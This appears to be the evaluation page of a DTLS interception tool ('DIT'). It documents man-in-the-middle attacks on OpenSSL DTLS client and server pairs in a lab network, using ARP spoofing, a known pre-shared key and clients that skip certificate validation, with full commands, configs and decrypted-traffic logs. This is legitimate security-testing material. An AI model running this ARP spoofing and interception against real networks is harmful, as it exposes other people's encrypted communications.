

# Use Cases / Evaluation

# OpenSSL Server <-> OpenSSL Client

## Setup

|Machine|OS|IP address|
|-------|--|----------|
|OpenSSL 1.1.1g Server|Alpine Linux 3.12|192.168.183.129|
|OpenSSL 1.1.1.g Client|Alpine Linux 3.12|192.168.183.128|
|MitM / DIT| Ubuntu 20.04| 192.168.183.134|

## Gaining a MitM Position

arpspoof -i ens33 -t 192.168.183.129 -r 192.168.183.128
0:c:29:fa:93:72 0:c:29:81:fb:3c 0806 42: arp reply 192.168.183.128 is-at 0:c:29:fa:93:72
0:c:29:fa:93:72 0:c:29:15:2a:11 0806 42: arp reply 192.168.183.129 is-at 0:c:29:fa:93:72
0:c:29:fa:93:72 0:c:29:81:fb:3c 0806 42: arp reply 192.168.183.128 is-at 0:c:29:fa:93:72
0:c:29:fa:93:72 0:c:29:15:2a:11 0806 42: arp reply 192.168.183.129 is-at 0:c:29:fa:93:72

## OpenSSL (PSK)

OpenSSL client and server are communicating in a local network using DTLS, the (known) PSK "DIT_secret" and the cipher suite PSK-AES128-CCM8. DIT is used to perform a MitM attack on the traffic.

### OpenSSL Server

The OpenSSL server can be started using the following command. It will be listenting on the external interface on port 1337 for incoming DTLS connections and will only accept PSK-AES128-CCM8 as cipher suite. ("DIT_secret" = hexadecimal 4449545f736563726574) The server then sends "Message from server to client" before receiving the message "Message from client to server".

```
openssl s_server -dtls -accept 1337 -nocert -psk 4449545f736563726574 -cipher PSK-AES128-CCM8
Using default temp DH parameters
ACCEPT
-----BEGIN SSL SESSION PARAMETERS-----
MG4CAQECAwD+/QQCwKgEAAQw0TTJqw/fgMQDOn8liteKTfhvu2vPKMsOdgnpPydL
61kmIWZIQ2QlLI+nyz0PR6FAoQYCBGDuuQGiBAICHCCkBgQEAQAAAKgRBA9DbGll
bnRfaWRlbnRpdHmtAwIBAQ==
-----END SSL SESSION PARAMETERS-----
Shared ciphers:PSK-AES128-CCM8
Signature Algorithms: ECDSA+SHA512:RSA+SHA512:ECDSA+SHA384:RSA+SHA384:ECDSA+SHA256:RSA+SHA256:ECDSA+SHA224:RSA+SHA224:ECDSA+SHA1:RSA+SHA1
Shared Signature Algorithms: ECDSA+SHA512:RSA+SHA512:ECDSA+SHA384:RSA+SHA384:ECDSA+SHA256:RSA+SHA256:ECDSA+SHA224:RSA+SHA224:ECDSA+SHA1:RSA+SHA1
Supported Elliptic Curve Point Formats: uncompressed
Supported Elliptic Groups: P-521:brainpoolP512r1:P-384:brainpoolP384r1:P-256:secp256k1:brainpoolP256r1:P-224:secp224k1:P-192:secp192k1
Shared Elliptic groups: P-521:P-384:P-256
CIPHER is PSK-AES128-CCM8
Secure Renegotiation IS supported
Message from client to server
Message from server to client
```

### OpenSSL Client

The OpenSSL client can be started using the following command. It will be establishing a DTLS connection to 192.168.183.129 on port 1337 using PSK-AES128-CCM8 as cipher suite. ("DIT_secret" = hexadecimal 4449545f736563726574) The client then sends "Message from client to server" before receiving the message "Message from server to client".

```
openssl s_client -dtls -connect 192.168.183.129:1337 -psk 4449545f736563726574 -cipher PSK-AES128-CCM8
CONNECTED(00000003)
Can't use SSL_get_servername
---
no peer certificate available
---
No client certificate CA names sent
---
SSL handshake has read 258 bytes and written 411 bytes
Verification: OK
---
New, TLSv1.2, Cipher is PSK-AES128-CCM8
Secure Renegotiation IS supported
No ALPN negotiated
SSL-Session:
    Protocol  : DTLSv1.2
    Cipher    : PSK-AES128-CCM8
    Session-ID: F8B7EB4E72A3512AB5AB161E4D42D03876B9A72289B40D6877C649222B4B1E98
    Session-ID-ctx: 
    Master-Key: D08FBDB7E8BF69BD585A5440F21358BA1D288EE456D9A2771A39B510D18A3D87B8201C4EB5F7B6BB03252E5481FAD2B3
    PSK identity: Client_identity
    PSK identity hint: None
    SRP username: None
    Start Time: 1626257665
    Timeout   : 7200 (sec)
    Verify return code: 0 (ok)
    Extended master secret: yes
---
Message from client to server
Message from server to client
```

### DIT

For this use case all necessary parameters have been configured in ```./config/dit_config.yaml```.

```
cat ./config/dit_config.yaml 
# configure spoofing/sniffing targets
targets:  
  iot_srv_ip: 192.168.183.129
  iot_srv_po: 1337
  iot_cli_ip: 192.168.183.128
  ciphers:
    # if no ciphers are configured, DIT will offer all ciphersuites available with mbedTLS
    #- TLS-ECDHE-ECDSA-WITH-AES-256-CBC-SHA384
    #- TLS-PSK-WITH-AES-128-CCM-8
    #- TLS-RSA-WITH-AES-128-GCM-SHA256

# configure interface names
interfaces:
  ex_if_name: ens33
  lh_if_name: lo

# configure psk options
psk:
  cli_id: Client_identity
  pre_sh_key: DIT_secret

# configure certificate options
certificate:
  # default is RSA. "use_ecc" arg enables ECC and disables key_size
  use_cert: False
  key_size: 2048
  use_ecc: False

# configure local dtls services
local_services:
  lh_cli_ip: 127.0.0.1
  lh_cli_po: 1338
  lh_srv_ip: 127.0.0.1
  lh_srv_po: 1339
 ```
 
DIT can be started using the following command. The flag ```-ibl``` will create the necessary iptables rule and remove it once DIT is closed.
 
```
sudo ./dit.py -ibl start
[sudo] password for xxx: 
**************************
*   ___    ___   _____   *
*  |   \  |_ _| |_   _|  *
*  | |) |  | |    | |    *
*  |___/  |___|   |_|    *
*                        *
* DTLS INTERCEPTION TOOL *
*                        *
**************************

2021-08-18 11:41:46,065 || INFO || Config Checker || Configuration summary:
2021-08-18 11:41:46,066 || INFO || Config Checker ||  - IoT server: 192.168.183.129
2021-08-18 11:41:46,066 || INFO || Config Checker ||  - IoT server port: 1337
2021-08-18 11:41:46,066 || INFO || Config Checker ||  - IoT client: 192.168.183.128
2021-08-18 11:41:46,066 || INFO || Config Checker ||  - Using PSK: DIT_secret, client identity: Client_identity and following ciphers: ALL AVAILABLE
2021-08-18 11:41:46,191 || INFO || Client Handler || DTLS client handler is listening for incoming connections from 192.168.183.128 to 192.168.183.129 on port 1337
2021-08-18 11:43:47,002 || INFO || Client Handler || Handshake completed
2021-08-18 11:43:47,018 || INFO || Server Handler || DTLS server handler is connecting to 192.168.183.129 on port 1337
2021-08-18 11:43:47,298 || INFO || Server Handler || Handshake completed
2021-08-18 11:44:09,196 || INFO || Client Handler || Received new datagram: b'Message from client to server\n'
2021-08-18 11:44:18,355 || INFO || Server Handler || Received new datagram: b'Message from server to client\n'
```

#### Wireshark

The follwing Wireshark dump shows how the datagrams are routed through the local proxylayers. DIT operates with a DTLS server (client handler) and a DTLS client (server handler). Both services are bound to a port on localhost. The 4 proxylayers are manipulating incoming and outgoing pakets in a way the local DTLS services can handle ip packets that have been sent to a non local interface IP address (e.g. 192.168.183.129). 



## OpenSSL (Certificate with RSA keypair)

OpenSSL client and server are communicating in a local network using DTLS. The sever uses a certificate with a RSA keypair to authenticate itself. The client does not validate the server certificate, which is why a MitM attack is possible. 

### OpenSSL Server

You can generate a suitable RSA keypair with the following commands:

```
openssl genrsa -out rsa_key.pem 2048
Generating RSA private key, 2048 bit long modulus (2 primes)
.......................................+++++
...................................................+++++
e is 65537 (0x010001)
```

```
openssl req -new -sha256 -key rsa_key.pem -out rsa_csr.csr
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:
State or Province Name (full name) [Some-State]:
Locality Name (eg, city) []:
Organization Name (eg, company) [Internet Widgits Pty Ltd]:
Organizational Unit Name (eg, section) []:
Common Name (e.g. server FQDN or YOUR name) []:
Email Address []:

Please enter the following 'extra' attributes
to be sent with your certificate request
A challenge password []:
An optional company name []:
```

```
openssl req -x509 -sha256 -days 365 -key rsa_key.pem -in rsa_csr.csr -out rsa_cert.crt
```

The OpenSSL server can be started using the following command. It will be listenting on the external interface on port 1337 for incoming DTLS connections and will only accept AES128-GCM-SHA256 as cipher suite. It will use rsa_cert.crt to authenticate itself and sign messages with rsa_key.pem. The server then sends "Message from server to client" before receiving the message "Message from client to server".

```
openssl s_server -dtls -accept 1337 -cert rsa_cert.crt -key rsa_key.pem -cipher AES128-GCM-SHA256 -listen
Using default temp DH parameters
ACCEPT
-----BEGIN SSL SESSION PARAMETERS-----
MFsCAQECAwD+/QQCAJwEAAQwhhyNJaeMyZSKm6T9MyHLCA4vuqHMiwsEeTLqpzvL
ijn63Nf5zsiVSo9F4O3OvG1uoQYCBGDuxQ6iBAICHCCkBgQEAQAAAK0DAgEB
-----END SSL SESSION PARAMETERS-----
Shared ciphers:AES128-GCM-SHA256
Signature Algorithms: ECDSA+SHA512:RSA+SHA512:ECDSA+SHA384:RSA+SHA384:ECDSA+SHA256:RSA+SHA256:ECDSA+SHA224:RSA+SHA224:ECDSA+SHA1:RSA+SHA1
Shared Signature Algorithms: ECDSA+SHA512:RSA+SHA512:ECDSA+SHA384:RSA+SHA384:ECDSA+SHA256:RSA+SHA256:ECDSA+SHA224:RSA+SHA224:ECDSA+SHA1:RSA+SHA1
CIPHER is AES128-GCM-SHA256
Secure Renegotiation IS supported
Message from client to server
Message from server to client
```

### OpenSSL Client

The OpenSSL client can be started using the following command. It will be establishing a DTLS connection to 192.168.183.129 on port 1337 using AES128-GCM-SHA256 as cipher suite. It will accept ANY certificate to authenticate the server. The client then sends "Message from client to server" before receiving the message "Message from server to client".

```
openssl s_client -dtls -connect 192.168.183.129:1337 -cipher AES128-GCM-SHA256
CONNECTED(00000003)
Can't use SSL_get_servername
depth=0 CN = DIT DTLS-Cert
verify error:num=18:self signed certificate
verify return:1
depth=0 CN = DIT DTLS-Cert
verify return:1
---
Certificate chain
 0 s:CN = DIT DTLS-Cert
   i:CN = DIT DTLS-Cert
---
Server certificate
-----BEGIN CERTIFICATE-----
MIID+DCCAmCgAwIBAgIBATANBgkqhkiG9w0BAQsFADAYMRYwFAYDVQQDDA1ESVQg
RFRMUy1DZXJ0MB4XDTIwMDgyMzE4MDUyOVoXDTIyMDgxMzE4MDUyOVowGDEWMBQG
A1UEAwwNRElUIERUTFMtQ2VydDCCAaIwDQYJKoZIhvcNAQEBBQADggGPADCCAYoC
ggGBANB6E/g4TfGfNiKmESqnXgdznLSy221lCmMO+fMITqqP7I3BspK/TfcFFJ7U
dXCtIBrRLDkVP2F9dg2Hc070VIrTx4rQ7bp9O3OeDG5tgNvMkXhcZV+4r0ZwOS6J
0jrjnpyZNGn5ada6fVMG1Z3hm1lWdGo4YVf9epxmtoDjuVXY/nKLfb43hXWNylrZ
wLIM2t9Z7a9eL24h/vg/ovqfnWTNYIB2ihHtrCCew+0sDWkzwcPFUQgF4/OEqvEK
ybq30cLaC3RcnUWtE5caaMfQeXfb5RCT8I/SA2WW3NzkphOIQbx5DEO97UuW5Tuq
6r8iSGXQsQGBNFXbAxNdvvn051jaPfbDKjQNMGWa6GlC84J+f5hm69sK3VPBgzVf
WWCQCuddtLInE+a4WSHjWWaXurk3EOmjPCmhZsfbnngt7GeyL+BEc3ar0Y0mC6jF
x+/C8gRcIFvrtq13CnM0Ww2cGyCnR42CMMg6DaVXuovWwspdCauYRZ+3Lje6vHJi
yJ5ARwIDAQABo00wSzAfBgNVHSMEGDAWgBQLa767rjwh+ljPvnu6KIW641lKNjAd
BgNVHQ4EFgQUC2u+u648IfpYz757uiiFuuNZSjYwCQYDVR0TBAIwADANBgkqhkiG
9w0BAQsFAAOCAYEAk1Uy5nIxSNw+U84sME9gPDDRNpKUuB7qh5OtmIZ/i4DwCjhY
EmIp1B9R4rtREiPzFkiOWiQTc0r0LGut7nwYHPKrXPlAw7OlzqyINLjdu+oxKtHt
IZ8PqWZWOkbB2gwfFcgSuhGVCpDWGhcRMIuzszlGqX6C4EUfiDV9FqpS/7uBFrFZ
q+QOlMlNVzrk/Y5ZYvbazZKBM14Y2Xl3mqjrKrz49oDDNgCIYz/AwkcN+gn//P6a
C6hB0JaL/VU6ZGuAfPhhEC/jf1FnekQVGJYrM5kGc0c42TawykQPELAOKZCTN8nI
yUanEXp4yhqV1CsIF+v/oD7xHmEEKqdzr5Js7hs5njWjOQkjAVHSEWss4OYXSuba
3YJponvQcKJ3B/uXAHsOG0Lv8Zj4iqzdAhsiXaNcuEqXuJM8P6PuO/T4hlyDvdAa
QRuOeZg7SrMsrp3bAUv3MV7OU/bciIrqdjZw2+4wa8Rfzg3huguVS1wpUK6h/eyB
l8PqiTvGeOLChQXU
-----END CERTIFICATE-----
subject=CN = DIT DTLS-Cert

issuer=CN = DIT DTLS-Cert

---
Acceptable client certificate CA names
CN = DIT DTLS-Cert
Client Certificate Types: RSA sign, ECDSA sign
Requested Signature Algorithms: RSA+SHA384:ECDSA+SHA384:RSA+SHA256:ECDSA+SHA256:RSA+SHA1:ECDSA+SHA1
Shared Requested Signature Algorithms: RSA+SHA384:ECDSA+SHA384:RSA+SHA256:ECDSA+SHA256:RSA+SHA1:ECDSA+SHA1
---
SSL handshake has read 1389 bytes and written 816 bytes
Verification error: self signed certificate
---
New, TLSv1.2, Cipher is AES128-GCM-SHA256
Server public key is 3072 bit
Secure Renegotiation IS supported
No ALPN negotiated
SSL-Session:
    Protocol  : DTLSv1.2
    Cipher    : AES128-GCM-SHA256
    Session-ID: 8F68C2912EBC50859F605FF081FC11AB5DB225FDA8E2752404F0B8F6D45F5E7E
    Session-ID-ctx: 
    Master-Key: C9F769E5E532EF6A18B82CD5CAD3E7FF95AB8C8A339452DFBD7BEE11A081133DC88BDE80542E73387CED78E799188AA5
    PSK identity: None
    PSK identity hint: None
    SRP username: None
    Start Time: 1626260749
    Timeout   : 7200 (sec)
    Verify return code: 18 (self signed certificate)
    Extended master secret: yes
---
Message from client to server
Message from server to client
```

### DIT

For this specific use case almost all relevant configuration has been made via command line arguments. (Command line arguments override all configuration made in ./config/dit_config.yaml)

```
cat config/dit_config.yaml 
# configure spoofing/sniffing targets
targets:  
  iot_srv_ip:
  iot_srv_po: 
  iot_cli_ip:
  ciphers:
    # if no ciphers are configured, DIT will offer all ciphersuites available with mbedTLS
    #- TLS-ECDHE-ECDSA-WITH-AES-256-CBC-SHA384
    #- TLS-PSK-WITH-AES-128-CCM-8
    #- TLS-RSA-WITH-AES-128-GCM-SHA256

# configure interface names
interfaces:
  ex_if_name: ens33
  lh_if_name: lo

# configure psk options
psk:
  cli_id: 
  pre_sh_key: 

# configure certificate options
certificate:
  # default is RSA. "use_ecc" arg enables ECC and disables key_size
  use_cert: 
  key_size: 
  use_ecc:

# configure local dtls services
local_services:
  lh_cli_ip: 127.0.0.1
  lh_cli_po: 1338
  lh_srv_ip: 127.0.0.1
  lh_srv_po: 1339
 ```
 
DIT can be started using the following command. (The loglevel has been raised to DEBUG using the -v flag). DIT automatically generates a suitable RSA keypair and a certificate to authenticate itself. The decrypted payloads are printed to stdout before beeing sent to the original receiver.
 
```
sudo ./dit.py --iot_srv_ip 192.168.183.129 --iot_srv_po 1337 --iot_cli_ip 192.168.183.128 --use_cert --key_size 3072 --ciphers TLS-RSA-WITH-AES-128-GCM-SHA256 --verbose --icmp_block start
**************************
*   ___    ___   _____   *
*  |   \  |_ _| |_   _|  *
*  | |) |  | |    | |    *
*  |___/  |___|   |_|    *
*                        *
* DTLS INTERCEPTION TOOL *
*                        *
**************************

2021-08-18 20:05:29,504 || INFO || DIT || Raised log level to DEBUG
2021-08-18 20:05:29,505 || DEBUG || Config Checker || Creating a new ConfigChecker instance
2021-08-18 20:05:29,505 || DEBUG || Config Checker || Checking configuration for errors
2021-08-18 20:05:29,505 || INFO || Config Checker || Configuration summary:
2021-08-18 20:05:29,505 || INFO || Config Checker ||  - IoT server: 192.168.183.129
2021-08-18 20:05:29,505 || INFO || Config Checker ||  - IoT server port: 1337
2021-08-18 20:05:29,506 || INFO || Config Checker ||  - IoT client: 192.168.183.128
2021-08-18 20:05:29,506 || INFO || Config Checker ||  - Using RSA 3072 and following ciphers: ('TLS-RSA-WITH-AES-128-GCM-SHA256',)
2021-08-18 20:05:29,506 || DEBUG || DIT || Enabling the following iptables rule: iptables -I OUTPUT 127.0.0.1 -p icmp --icmp-type destination-unreachable -j DROP
2021-08-18 20:05:29,518 || DEBUG || Proxy || Creating a new Proxy instance
2021-08-18 20:05:29,525 || DEBUG || Proxy || Created a new sniffer to sniff incoming client packets. Process id: 110279, Parent id: 110269
2021-08-18 20:05:29,529 || DEBUG || Proxy || Created a new sniffer to sniff outgoing client packets. Process id: 110280, Parent id: 110269
2021-08-18 20:05:29,533 || DEBUG || Client Handler || Creating a new DtlsClientHandler instance
2021-08-18 20:05:29,534 || DEBUG || Client Handler || Creating a new communication certificate
2021-08-18 20:05:29,535 || DEBUG || Client Handler || Using RSA to generate a key pair (3072bit)
2021-08-18 20:05:29,534 || DEBUG || Proxy || Created a new sniffer to sniff incoming server packets. Process id: 110281, Parent id: 110269
2021-08-18 20:05:29,552 || DEBUG || Proxy || Created a new sniffer to sniff outgoing server packets. Process id: 110283, Parent id: 110269
2021-08-18 20:05:31,826 || DEBUG || Client Handler || Creating a new trust store
2021-08-18 20:05:31,827 || DEBUG || Client Handler || Setting up certificate dtls context supporting the following ciphers: ('TLS-RSA-WITH-AES-128-GCM-SHA256',)
2021-08-18 20:05:31,828 || DEBUG || Server Handler || Creating a new DtlsServerHandler instance
2021-08-18 20:05:31,828 || DEBUG || Server Handler || Setting up certificate dtls context supporting the following ciphers: ('TLS-RSA-WITH-AES-128-GCM-SHA256',)
2021-08-18 20:05:31,838 || DEBUG || Client Handler || Created new DtlsClientHandler socket: process id: 110287, parent id: 110269
2021-08-18 20:05:31,839 || INFO || Client Handler || DTLS client handler is listening for incoming connections from 192.168.183.128 to 192.168.183.129 on port 1337
2021-08-18 20:05:32,936 || INFO || Client Handler || Handshake completed
2021-08-18 20:05:32,937 || DEBUG || Client Handler || Starting a new Server Handler instance
2021-08-18 20:05:32,945 || DEBUG || Server Handler || Created new DtlsServerHandler socket: process id: 110288, parent id: 110287
2021-08-18 20:05:32,946 || INFO || Server Handler || DTLS server handler is connecting to 192.168.183.129 on port 1337
2021-08-18 20:05:33,162 || INFO || Server Handler || Handshake completed
2021-08-18 20:05:46,364 || INFO || Client Handler || Received new datagram: b'Message from client to server\n'
2021-08-18 20:05:46,376 || DEBUG || Server Handler || Sending datagram: b'Message from client to server\n'
2021-08-18 20:05:57,219 || INFO || Server Handler || Received new datagram: b'Message from server to client\n'
2021-08-18 20:05:57,222 || DEBUG || Client Handler || Sending datagram: b'Message from server to client\n
```

## OpenSSL (Certificate with ECC keypair)

OpenSSL client and server are communicating in a local network using DTLS. The sever uses a certificate with a ECC keypair to authenticate itself. The client does not validate the server certificate, which is why a MitM attack is possible. 

### OpenSSL Server

You can generate a suitable ECC keypair with the following commands:

```
openssl ecparam -genkey -name prime256v1 -out ecc_key.pem
```

```
openssl req -new -sha256 -key ecc_key.pem -out ecc_csr.csr
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:
State or Province Name (full name) [Some-State]:
Locality Name (eg, city) []:
Organization Name (eg, company) [Internet Widgits Pty Ltd]:
Organizational Unit Name (eg, section) []:
Common Name (e.g. server FQDN or YOUR name) []:
Email Address []:

Please enter the following 'extra' attributes
to be sent with your certificate request
A challenge password []:
An optional company name []:
```

```
openssl req -x509 -sha256 -days 365 -key ecc_key.pem -in ecc_csr.csr -out ecc_cert.crt
```

The OpenSSL server can be started using the following command. It will be listenting on the external interface on port 1337 for incoming DTLS connections and will only accept ECDHE-ECDSA-AES128-CCM as cipher suite. It will use ecc_cert.crt to authenticate itself and sign messages with ecc_key.pem. The server then sends "Message from server to client" before receiving the message "Message from client to server".

```
openssl s_server -dtls -accept 1337 -cert ecc_cert.crt -key ecc_key.pem -cipher ECDHE-ECDSA-AES128-CCM -listen
Using default temp DH parameters
ACCEPT
-----BEGIN SSL SESSION PARAMETERS-----
MFsCAQECAwD+/QQCwKwEAAQw+EFOvYM0ZOlhys96LGzftpn9/bPJTPmxNMTq/erT
6wnbQmsxtmEapln8sruXVaMJoQYCBGDuy0iiBAICHCCkBgQEAQAAAK0DAgEB
-----END SSL SESSION PARAMETERS-----
Shared ciphers:ECDHE-ECDSA-AES128-CCM
Signature Algorithms: ECDSA+SHA512:RSA+SHA512:ECDSA+SHA384:RSA+SHA384:ECDSA+SHA256:RSA+SHA256:ECDSA+SHA224:RSA+SHA224:ECDSA+SHA1:RSA+SHA1
Shared Signature Algorithms: ECDSA+SHA512:RSA+SHA512:ECDSA+SHA384:RSA+SHA384:ECDSA+SHA256:RSA+SHA256:ECDSA+SHA224:RSA+SHA224:ECDSA+SHA1:RSA+SHA1
Supported Elliptic Curve Point Formats: uncompressed
Supported Elliptic Groups: P-521:brainpoolP512r1:P-384:brainpoolP384r1:P-256:secp256k1:brainpoolP256r1:P-224:secp224k1:P-192:secp192k1
Shared Elliptic groups: P-521:P-384:P-256
CIPHER is ECDHE-ECDSA-AES128-CCM
Secure Renegotiation IS supported
Message from client to server
Message from server to client
```

### OpenSSL Client

The OpenSSL client can be started using the following command. It will be establishing a DTLS connection to 192.168.183.129 on port 1337 using ECDHE-ECDSA-AES128-CCM as cipher suite. It will accept ANY certificate to authenticate the server. The client then sends "Message from client to server" before receiving the message "Message from server to client".

```
openssl s_client -dtls -connect 192.168.183.129:1337 -cipher ECDHE-ECDSA-AES128-CCM
CONNECTED(00000003)
Can't use SSL_get_servername
depth=0 CN = DIT DTLS-Cert
verify error:num=18:self signed certificate
verify return:1
depth=0 CN = DIT DTLS-Cert
verify return:1
---
Certificate chain
 0 s:CN = DIT DTLS-Cert
   i:CN = DIT DTLS-Cert
---
Server certificate
-----BEGIN CERTIFICATE-----
MIIB+DCCAVegAwIBAgIBATAMBggqhkjOPQQDAgUAMBgxFjAUBgNVBAMMDURJVCBE
VExTLUNlcnQwHhcNMjAwODIzMTgyOTQ5WhcNMjIwODEzMTgyOTQ5WjAYMRYwFAYD
VQQDDA1ESVQgRFRMUy1DZXJ0MIGbMBAGByqGSM49AgEGBSuBBAAjA4GGAAQATEzo
NoYFuxWslY/LaUK8XRA6JyJjv/Boq8ambA/4vul3fvC1l75mHR0jFypjHSO8yXMY
dCrryUiwn7tCdBRm+tgAVZZMP6867xAR2HKrOS0EcrhLKjP5OpLDq5X+Obm/OnLA
DA+iBMHGSu4VaqVHKevAMyPi+HAQ0+rjnvbdIedetUajTTBLMB8GA1UdIwQYMBaA
FPgEjvwplTft/4r7A5wh0ONZL1wdMB0GA1UdDgQWBBT4BI78KZU37f+K+wOcIdDj
WS9cHTAJBgNVHRMEAjAAMAwGCCqGSM49BAMCBQADgYwAMIGIAkIBpq9pOGGDJNhC
pY27o33zwHZQdbC1/fZrHlrLVyDu4LwkiWNvgRB9mlleshac1nhluCcWdTzWlFup
mmmK07jojcgCQgCIBYf0OrdcrnUvKq0bNGaUc2I3Cu/IQ0QnBclncuaHiFeKgW6s
KcMJpy6sleFPCuzG6qQrAMbXKP7s9gDnKCLMBg==
-----END CERTIFICATE-----
subject=CN = DIT DTLS-Cert

issuer=CN = DIT DTLS-Cert

---
Acceptable client certificate CA names
CN = DIT DTLS-Cert
Client Certificate Types: RSA sign, ECDSA sign
Requested Signature Algorithms: RSA+SHA384:ECDSA+SHA384:RSA+SHA256:ECDSA+SHA256:RSA+SHA1:ECDSA+SHA1
Shared Requested Signature Algorithms: RSA+SHA384:ECDSA+SHA384:RSA+SHA256:ECDSA+SHA256:RSA+SHA1:ECDSA+SHA1
Peer signing digest: SHA256
Peer signature type: ECDSA
Server Temp Key: ECDH, P-521, 521 bits
---
SSL handshake has read 1188 bytes and written 612 bytes
Verification error: self signed certificate
---
New, TLSv1.2, Cipher is ECDHE-ECDSA-AES128-CCM
Server public key is 521 bit
Secure Renegotiation IS supported
No ALPN negotiated
SSL-Session:
    Protocol  : DTLSv1.2
    Cipher    : ECDHE-ECDSA-AES128-CCM
    Session-ID: 8D8C5BD123BC292730DBDA3C6E92B2440C3FD8F2A1640622F023C000E7ACC006
    Session-ID-ctx: 
    Master-Key: 2E3344A953F44746B46844DF7F9E78375454833D89C84BFA0958ADBB96758A9E1CCBF138705FC9451758A1E6634C2467
    PSK identity: None
    PSK identity hint: None
    SRP username: None
    Start Time: 1626262344
    Timeout   : 7200 (sec)
    Verify return code: 18 (self signed certificate)
    Extended master secret: yes
---
Message from client to server
Message from server to client
```

### DIT

```
cat config/dit_config.yaml 
# configure spoofing/sniffing targets
targets:  
  iot_srv_ip: 192.168.183.129
  iot_srv_po: 1337
  iot_cli_ip: 192.168.183.128
  ciphers:
    # if no ciphers are configured, DIT will offer all ciphersuites available with mbedTLS
    #- TLS-ECDHE-ECDSA-WITH-AES-256-CBC-SHA384
    #- TLS-PSK-WITH-AES-128-CCM-8
    #- TLS-RSA-WITH-AES-128-GCM-SHA256

# configure interface names
interfaces:
  ex_if_name: ens33
  lh_if_name: lo

# configure psk options
psk:
  cli_id: 
  pre_sh_key:

# configure certificate options
certificate:
  # default is RSA. "use_ecc" arg enables ECC and disables key_size
  use_cert: TRUE
  key_size: 2048
  use_ecc: TRUE

# configure local dtls services
local_services:
  lh_cli_ip: 127.0.0.1
  lh_cli_po: 1338
  lh_srv_ip: 127.0.0.1
  lh_srv_po: 1339
 ```
 
DIT can be started using the following command. The decrypted payloads are printed to stdout before beeing sent to the original receiver.
 
```
sudo ./dit.py -o ecc.log -ibl start
**************************
*   ___    ___   _____   *
*  |   \  |_ _| |_   _|  *
*  | |) |  | |    | |    *
*  |___/  |___|   |_|    *
*                        *
* DTLS INTERCEPTION TOOL *
*                        *
**************************

2021-08-18 20:29:49,069 || INFO || Config Checker || Configuration summary:
2021-08-18 20:29:49,069 || INFO || Config Checker ||  - IoT server: 192.168.183.129
2021-08-18 20:29:49,069 || INFO || Config Checker ||  - IoT server port: 1337
2021-08-18 20:29:49,070 || INFO || Config Checker ||  - IoT client: 192.168.183.128
2021-08-18 20:29:49,070 || INFO || Config Checker ||  - Using ECC 521b and following ciphers: ALL AVAILABLE
2021-08-18 20:29:49,070 || INFO || Config Checker ||  - Writing decrypted datagram payload to ecc.log
2021-08-18 20:29:49,173 || INFO || Client Handler || DTLS client handler is listening for incoming connections from 192.168.183.128 to 192.168.183.129 on port 1337
2021-08-18 20:30:04,901 || INFO || Client Handler || Handshake completed
2021-08-18 20:30:04,906 || INFO || Server Handler || DTLS server handler is connecting to 192.168.183.129 on port 1337
2021-08-18 20:30:05,120 || INFO || Server Handler || Handshake completed
2021-08-18 20:30:15,269 || INFO || Client Handler || Received new datagram: b'Message from client to server\n'
2021-08-18 20:30:27,109 || INFO || Server Handler || Received new datagram: b'Message from server to client\n'
```